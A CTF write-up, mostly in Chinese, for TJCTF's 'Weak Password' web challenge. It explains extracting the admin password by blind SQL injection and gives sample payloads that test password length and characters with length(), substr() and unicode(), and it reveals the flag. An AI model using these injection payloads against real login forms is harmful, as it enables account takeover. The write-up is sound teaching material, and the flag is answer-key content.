


# Weak Password

Web, 50 Points

Auther: **saisree**

Writeup By: **yctseng1227**

## Description

It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

## Solution

從題目給定`username`為`admin`，以及從`source code`可以看到`SQL語法`以及一些欄位資訊，我們可以猜到這題要用**Blind SQL injection**，一些基本的猜法可以參考[此篇](https://www.twblogs.net/a/5d0d7134bd9eee1ede0450b0)。

How to Guess ?

透過`SQL injection`並利用登入結果判斷是否成功，想辦法從`username`撈出我們想要的資訊。

<table align="center" border="0" cellpadding="0" cellspacing="0" style="width: 100%;">
<tbody><tr>
<td>　　</td>
<td>　　</td>
</tr></tbody></table>

例如，猜`password`長度：

`admin' and length(password) > 13 -- ` --> success

`admin' and length(password) > 14 -- ` --> fail

`admin' and length(password) = 14 -- ` --> success

可以猜到`password`長度為14。
 

又例如，猜`password`第一個字元：

`admin' and unicode(substr(password, 1)) > unicode('a') -- ` --> success

`admin' and unicode(substr(password, 1)) > unicode('b') -- ` --> fail

`admin' and unicode(substr(password, 1)) = unicode('b') -- ` --> success

可以猜到`password`第一個字元為`b`。

 
再來就是寫Code了，可以搭配Binary search加速搜尋~

然後用回傳的request長度判斷結果是否成功。

[solve.py](./solve.py)

### Result

> tjctf{blindsqli14519}
